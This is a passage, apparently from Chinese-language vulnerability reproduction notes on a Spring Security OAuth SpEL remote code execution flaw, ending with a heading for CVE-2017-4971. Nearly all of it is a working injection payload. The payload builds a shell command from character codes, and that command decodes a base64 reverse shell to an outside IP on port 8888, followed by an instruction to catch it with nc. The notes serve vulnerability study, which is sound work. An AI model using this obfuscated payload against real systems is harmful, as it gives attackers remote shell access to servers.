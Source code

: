 >${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}
>```
>
>然后使用nc监听即可

引发原因：Spring Security OAuth是为Spring框架提供安全认证支持的一个模块。在其使用 whitelabel views来处理错误时，由于使用 SpEL，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。





#### 在是**CVE-2017-4971**
